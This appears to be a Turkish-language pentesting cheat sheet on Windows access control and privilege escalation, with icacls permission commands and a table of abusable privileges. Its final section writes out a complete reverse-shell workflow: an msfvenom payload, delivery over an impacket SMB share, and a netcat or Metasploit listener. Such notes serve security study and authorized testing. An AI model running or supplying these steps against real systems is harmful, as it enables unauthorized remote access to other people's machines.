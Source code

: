 | Komut | Açıklama |
| - | - | 
| icacls /? | Yardım menüsünü açar. |
| icacls \* <br/> icacls C:\<directory> <br/> icacls C:\Path\To\File |  Dosya veya dizinler için ACL'leri listeler. |
| icacls C:\File /grant <user/group>:F /Q /C /T | Dosya veya dizin için full yetki verir. |
| icacls C:\File /deny <user/group>:F | Dosya veya dizin için yetki engellenir. |
| icacls C:\File /remove <user/group>:F | Dosya veya dizin için yetki kaldırılır.|
| icacls C:\File /grant <user/group>:(OI)(CI)(F) | Tam yetki, alt dizinler ve dosyalar içinde uygulanır. |
| icacls C:\File /setowner <user/group> /T /C /Q | Aitlik alır. |
| icacls C:\File /reset /T | ACL'leri resetler. |

---

# User Rights Assignment

- Kullanıcı veya grupların gerçekleştirebilecekleri eylemleri sınırlandırır. Group Policy ile kullanıcı yetki atamaları yapan bir mekanizmadır. 
- **whoami /priv** komutu ile kullanıcının yetkileri listelenir.

| Hak | Açıklama |
| - | - |
| SeBackupPrivileges <br/> SeRestorePrivileges | Dosya ve dizin yedeği alabilme ve geri dönebilme yetkisidir. |
| SeTakeOwnershipPrivilege | Dosya ve dizinlerin aitliğini alabilme yetkisidir. |
| SeImpersonatePrivilege <br/> SeDelegateSessionUserImpersonatePrivilege | Bir kullanıcı veya işlemin diğer kullanıcı haklarına bürünmesi yetkisidir. |
| SeDebugPrivilege | Sahibi olunmayan işlemlere müdahale yetkisidir. |

```shell
# Ayar Dosyası
Local Group Policy -> Computer Configuration -> Windows Settings -> Security Settings -> Local Policies -> User Rights Assignment
```

---

# REVERSE SHELL

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ADDR> LPORT=<PORT> -f exe -o reverse.exe
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
copy \\<IP_ADDR>\kali\reverse.exe C:\Temp\reverse.exe
nc -lvnp <PORT>
msfconsole -> use exploit/multi/handler -> set payload windows/x64/shell_reverse_tcp
C:\Temp\reverse.exe
```

---